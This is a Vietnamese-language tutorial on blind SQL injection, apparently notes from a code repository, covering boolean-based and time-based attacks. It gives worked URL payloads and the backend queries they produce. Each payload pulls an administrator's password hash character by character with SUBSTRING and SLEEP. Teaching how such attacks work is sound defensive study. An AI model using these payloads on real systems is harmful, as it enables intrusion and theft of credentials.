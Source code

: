 ![Inferential SQLi](../img/Screenshot%202022-05-07%20161735.png)

# **2. Inferential SQLi (Blind)**

- Tin tặc gửi Request tới Server và **_phân tích Response_** của Server để nắm được cấu trúc của cơ sở dữ liệu. **_Dữ liệu thực tế không được truyền từ cơ sở dữ liệu tới tin tặc và không thể trực tiếp xem dữ liệu được trích xuất_**. Tin tặc có thể **_xây dựng lại dữ liệu bằng cách gửi các Request cụ thể và quan sát hành vi của Database Server_**.
- Cần **_nhiều thời gian_** để khai thác hơn so với In-band SQLi.
- Có **_2_** kiểu tấn công Blind SQLi chính: **_Boolean-based SQLi_** và **_Time-based SQLi_**.

&nbsp;

## **2.1. Boolean-based SQLi**

### **2.1.1. Định nghĩa**

Tin tặc gửi một truy vấn SQL (sử dụng những **_điều kiện Boolean_**) tới cơ sở dữ liệu và **_ứng dụng sẽ trả về kết quả khác nhau dựa trên việc truy vấn trả về giá trị TRUE hay FALSE_**. Kết quả này cũng ảnh hưởng tới HTTP Response và thêm thông tin trong HTTP Response mà tin tặc sử dụng.

### **2.1.2. Khai thác Boolean-based SQLi**

- **_Gửi một điều kiện Boolean mang giá trị FASLE và note lại Response_**.
- **_Gửi một điều kiện Boolean mang giá trị TRUE và note lại Response_**.
- **_Viết một chương trình sử dụng các câu lệnh điều kiện để hỏi cơ sở dữ liệu một loạt câu hỏi TRUE / FALSE và quan sát Response_**.

### **2.1.3. Ví dụ**

#### **a. Ví dụ 1**

Users Table

```
Administrator
e3c33e889e0e1b62cb7f65c63b60c42bd77275d0e730432fc37b7e624b09ad1f
```

Payload

```
www.random.com/products?id=1 AND SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 's'
```

Backend Query

```
SELECT title FROM products WHERE id=1 AND SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 's'
```

Payload

```
www.random.com/products?id=1 AND SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 'e'
```

Backend Query

```
SELECT title FROM products WHERE id=1 AND SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 'e'
```

Diễn giải

→ Không có gì được trả về trên trang → FALSE → ‘s’ không phải kí tự đầu tiên của Hashed Password.  
→ Tiêu đề của sản phẩm có id là 1 được trả về trên trang → TRUE → ‘e’ là kí tự đầu tiên của Hashed Password.  
Tin tặc sử dụng một chương trình tự động duyệt qua tất cả các trường hợp và xây dựng lại dữ liệu. Từ đó có thể đánh cắp được những thông tin quan trọng trong cơ sở dữ liệu của ứng dụng.

&nbsp;

## **2.2. Time-based SQLi**

### **2.2.1. Định nghĩa**

Tin tặc gửi một truy vấn SQL tới cơ sở dữ liệu để **_khiến cơ sở dữ liệu chờ trước khi phản hồi_**. Dựa trên việc Database dừng lại một khoảng thời gian nhất định, sau đó mới trả về kết quả, tin tặc sẽ **_phân tích thời gian được sử dụng bởi cơ sở dữ liệu để biết truy vấn SQL thực thi thành công hay không và xây dựng lại dữ liệu_**.

### \*\*2.2.2. Khai thác Time-based SQLi

- **_Gửi Payload làm tạm dừng ứng dụng trong một khoảng thời gian cụ thể_**.
- **_Viết chương trình sử dụng các câu lệnh điều kiện để hỏi cơ sở dữ liệu một loạt câu hỏi TRUE / FALSE và theo dõi thời gian trả lời_**.

### **2.2.3. Ví dụ**

#### **a. Ví dụ 1**

Input

```
www.random.com/products?id=1 AND IF(SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 'a', SLEEP(10), FALSE)
```

Backend Query

```
SELECT * FROM products WHERE id=1 AND IF(SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 'a', SLEEP(10), FALSE)
```

Output

```
Return the product with the id 1 after 10 seconds if the first character of the administrator’s hashed password is an 'a'...
```

Diễn giải

Nếu kí tự đầu tiên của Hashed Password của người dùng quản trị viên là 'a', chờ 10 giây.  
→ Response cần 10 giây → Kí tự đầu tiên là 'a'.  
→ Response khác 10 giây → Kí tự đầu tiên không phải là 'a'.  
Tin tặc sử dụng một chương trình tự động duyệt qua tất cả các trường hợp và xây dựng lại dữ liệu. Nguyên lý của kiểu tấn công SQLi này về cơ bản là giống với Boolean-based SQLi.
